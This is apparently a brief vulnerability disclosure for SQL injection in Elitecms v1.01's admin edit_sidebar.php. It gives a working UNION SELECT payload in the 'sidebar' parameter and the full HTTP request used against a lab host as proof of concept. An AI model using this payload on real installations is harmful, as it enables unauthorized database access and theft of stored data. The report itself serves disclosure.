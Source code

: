 # Elitecms v1.01 by elitecms has SQL injection

vendors: https://elitecms.net/download.php

Vulnerability File: /admin/edit_sidebar.php

Vulnerability location: ip/eliteCMS1.01/admin/edit_sidebar.php?page=2&sidebar=, sidebar

dbname: elitecms101

[+] Payload: /eliteCMS1.01/admin/edit_sidebar.php?page=2&sidebar=-3%20union%20select%201,2,database(),4,5--+ // Leak place ---> sidebar

```sql
GET /eliteCMS1.01/admin/edit_sidebar.php?page=2&sidebar=-3%20union%20select%201,2,database(),4,5--+ HTTP/1.1
Host: 192.168.1.108
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=307ef75a2f3ab4c1103d8a1e90cf120e
Connection: close
```
![image](https://user-images.githubusercontent.com/54017627/167534763-b084791d-07d8-4a59-8200-9be6f7c98cb2.png)

![image](https://user-images.githubusercontent.com/54017627/167534625-0c2fa0a3-b169-4bc4-82c4-8c9a8478ce9d.png)
